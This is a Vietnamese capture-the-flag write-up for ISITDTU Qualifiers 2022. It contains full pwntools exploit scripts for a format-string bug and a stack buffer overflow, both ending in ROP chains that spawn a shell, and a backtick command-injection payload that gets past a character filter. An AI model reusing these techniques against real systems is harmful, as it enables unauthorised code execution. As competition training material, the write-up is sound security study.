 ### Writeup for ISITDTU QUAL 2022

---

#### Đôi lời muốn nói

Đây là lần thứ hai mình tham gia giải này với tư cách là thí sinh với team Sarmat, lần đầu mình tham gia là với team g4f năm ngoái, năm ngoái team mình cũng không gặt hái được gì nhiều nhưng năm nay đội mình đã chiến đấu hết mình và giành được giải 3 toàn Việt Nam và được 1 suất tham gia chung kết. 

Năm nay giải có vẻ nhẹ hơn so với năm ngoái (do mình cảm thấy vậy hoặc là do năm ngoái mình phế vì không giải được câu nào :d ), năm nay mình giải được 3 câu pwn và 3 câu mics và ở dưới là solution cho 3 câu mình pwn giải được. 

#### Pwn 

##### Pwn 1

###### Analyze 

Đây là một câu pwn binary elf 64-bits và không bị stripped thay vào đó thì full mitigation được bật. 

Vào fuzz linh tinh thì mình phát hiện ra có bug format string ngoài ra có vẻ bài này dính bug typecast do format là unsigned mà nó lấy trừ số ngẫu nhiên, nhập số nhỏ thì nhảy qua số âm ép lại %u thì ra typecast error nhưng mà có vẻ bug này không ảnh hưởng tới chương trình cho lắm nên có thể bỏ qua.

Bug duy nhất trong bài này chắc có lẽ là format string.

![Alt text](../../../../../../../c:/Users/Administrator/OneDrive/Desktop/ctf/isitdtu_2022/pwn1_check.png)

###### Exploit 

Vector exploit bài này mình sẽ làm như sau: 

Địa chỉ con trỏ payler_money được gán với biến v3 (khởi tạo ở vùng heap thông qua hàm calloc() `v3 = (_QWORD **)calloc(0x88uLL, 1uLL);`), ta có thể lợi dụng bug format string để thay đổi fsb của nó thành biến `feedback`, bởi vì biến v3 được dùng ở trong hàm `playgame`, bên trong hàm `playgame` thì biến `my_money`(biến v3) được cộng trừ liên tục, ta có thể lợi dụng tính năng này để thay đổi giá trị của biến `feedback` (mà ta đã thay đổi `v3` thành `feedback` ở trước đó bằng format string, ta cộng trừ sao cho nó trỏ về địa chỉ của stack ta leak được từ bug format string rồi từ đó build rop chain để spawn shell. 

```py
from pwn import * 
from ctypes import CDLL
r = process('./warmup_patched')
# r = remote('34.171.160.79', 9998)
elf = context.binary = ELF('./warmup_patched')
libc = ELF('./libc-2.23.so')
libc_ = CDLL('./libc.so.6')
# r.sendlineafter(b'How much money you want? ',b'0')
# payload = b'%p#'*100
# r.sendlineafter(b'name: ',payload)
# r.recvuntil(b'Welcome to lucky game                            *')
# r.recvuntil(b'**************************************************')
# leak = r.recvuntil(b'*').strip().split(b'#')
# print(leak)
# debug=1
# if debug:
#     i=1
#     for address in leak:
#         if  address.decode().startswith("0x5") and address.decode().endswith("6"):
#             log.info(f"main leak [{i}]: {address.decode()}")
#         elif len(address) > 16 and address.decode().endswith("00"):
#             log.info(f"Canary candidate [{i}]: {address.decode()}")
#         elif address.decode().startswith("0x7f"):
#             log.info(f"Libc candidate [{i}]: {address.decode()}")
#         elif address.decode().startswith("0x7f") and address.decode().endswith("0"):
#             log.info(f"Stack leak [{i}]: {address.decode()}")
#         elif len(address) > 8 and address.decode().startswith("0x3"):
#             log.info(f"Seed leak [{i}]: {address.decode()}")

#         i += 1
# -------------------------------------------
# | [*] Libc candidate [1]: 0x7f934f3316a3  |
# | [*] Seed leak [23]: 0x3ab2989b7         |  
# | [*] Stack candidate [26]: 0x7ffc38c62110|
# | [*] main leak [33]: 0x56364f6011b6      |
# -------------------------------------------
r.sendlineafter(b'How much money you want? ',b'0')

r.sendlineafter(b'name: ',b'%88c%12$hhn#%1$p#%23$p#%26$p#%33$p')
r.recvuntil(b'Welcome to lucky game                            *')
r.recvuntil(b'**************************************************')
leak = r.recvuntil(b'*').strip().split(b'#')
print(leak)
libc_leak = int(leak[1],16)
seed = int(leak[2],16)
stack_leak = int(leak[3],16)
main_leak = int(leak[4][:14],16)
print('libc leak: ',hex(libc_leak))
print('seed leak: ',hex(seed))
print('stack: ',hex(stack_leak))
print('pie leak: ',hex(main_leak))
# gdb.attach(r)
elf.address = main_leak - elf.sym['main']
libc.address = libc_leak - 0x3c56a3

print('-----------------------------')
print('pie base: ', hex(elf.address))
print('libc base: ',hex(libc.address))
# gdb.attach(r,gdbscript = '''
#     b *0x0055555540110C
#     b * playgame
#     continue
#     '''
# )
r.recvuntil(b'Your money: ')
money_leak  = int(r.recvline().strip())
print('money: ',hex(money_leak))
libc_.srand(seed)

value_moment = libc_.rand()
print('value at the moment: ',hex(value_moment))
forgery = (stack_leak + 8) - (libc_.rand() + money_leak)
r.sendlineafter(b'Your vote (= 0 to exit): ',str(forgery).encode())
r.sendlineafter(b'Your number: ',str(value_moment).encode())

rdi = elf.address + 0x0000000000001243
ret = elf.address + 0x00000000000009be
r.sendlineafter(b'Your vote (= 0 to exit):',b'0')
payload = p64(ret) + p64(rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
r.recvuntil(b'feeback:')
r.sendline(payload)
r.interactive()
``` 

Teammate của mình @th3_sh4dow đã giải ra bài này ở trước đó, mình một lát sau mới giải ra được, 

Cảm ơn anh @Cobra đã giúp mình giải được bài này :love_pepe:

#### Pwn 2

Ban đầu mình nghĩ đây là một câu binary pwn vì cho file elf 64-bits. Flow chương trình khá là đơn giản, nhập input vào rồi chương trình xử lý input mình nhập thông qua hàm `process()` sau đó ghi vào file `result.txt` thông qua hàm `writeResult()`, điều đặc biệt ở hàm này là nó chạy hàm `system(s)`. Lúc đầu mình thử exploit theo hướng `stack pivot` tại vì chương trình cho nhập input thông qua hàm `__isoc99_scanf("%112s", haystack)`, biến `haystack` được khởi tạo ban đầu với 100 bytes, nhưng sau khi bài up lên được 30p thì mình đã thấy có team giải được thì mình nghĩ theo một hướng khác đó là lợi dụng hàm `system(s)` để escape sandbox và đọc flag. 

##### Exploit

Bài này filter phần lớn các ký tự đặc biệt để exploit theo hướng sandbox `"~!@#%^&_=\\|[]{};:'\"?><,"`, tuy nhiên thì nó không filter ký tự ` . Dường như bài này chỉ là một cái máy tính đơn giản thực hiện một số phép cộng trừ, payload của mình khá là đơn giản 
``` 
1`sh`+1
```

![Alt text](../../../../../../../c:/Users/Administrator/OneDrive/Desktop/ctf/isitdtu_2022/pwn2_test.png)

Vậy là mình đã escape được sandbox, tuy nhiên chúng ta chỉ thực hiện được một số command cơ bản như là ls, cat, etc,.....

![Alt text](../../../../../../../c:/Users/Administrator/OneDrive/Desktop/ctf/isitdtu_2022/pwn2_test2.png)

Ta có thể confirm rằng ta đang ở directory chính thông qua file Docker. Tuy nhiên ta không thể xem được nội dung ở result.txt hay là flag.txt thông qua command cat. Tới đây thì có khá là nhiều cách để đọc nội dung của flag, cách của mình là gộp stdout vào stderr thông qua command `1>&2`, lợi dụng tính năng này để mình đọc được flag. 

![Alt text](../../../../../../../c:/Users/Administrator/OneDrive/Desktop/ctf/isitdtu_2022/pwn2_flag.png)

#### Re-name

Có vẻ đây là bài dễ nhất trong 4 bài pwn, chỉ là một câu bof leak libc rồi ta tính toán địa chỉ của libc gốc và từ đó build ROP chain để spawn shell

![Alt text](../../../../../../../c:/Users/Administrator/OneDrive/Desktop/ctf/isitdtu_2022/re-name_analyze.png)

Bug bof nằm tại hàm `read(0, buf, 0x60uLL)` do biến buf được khởi tạo với 40 bytes. 

Một bài ăn điểm tại giải này 

```py
from pwn import * 

r = process('./challenge')
# r = remote('34.175.151.38',2682)
rdi = 0x0000000000401393
ret = 0x000000000040101a
elf = context.binary = ELF('./challenge')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

payload = b'a'*0x38 + p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['main'])
r.sendlineafter(b'What is your name? ',payload)
r.sendline(b'\x00')
r.recvuntil(b'None!')
leak = u64(r.recvuntil(b'\x7f')[1:].ljust(8,b'\x00'))

print(hex(leak))
# gdb.attach(r)
libc.address = leak - libc.sym['puts']
print(hex(libc.address))
payload_ = b'a'*0x38 + p64(ret) + p64(rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
r.sendlineafter(b'What is your name? ',payload_)
r.interactive()
```



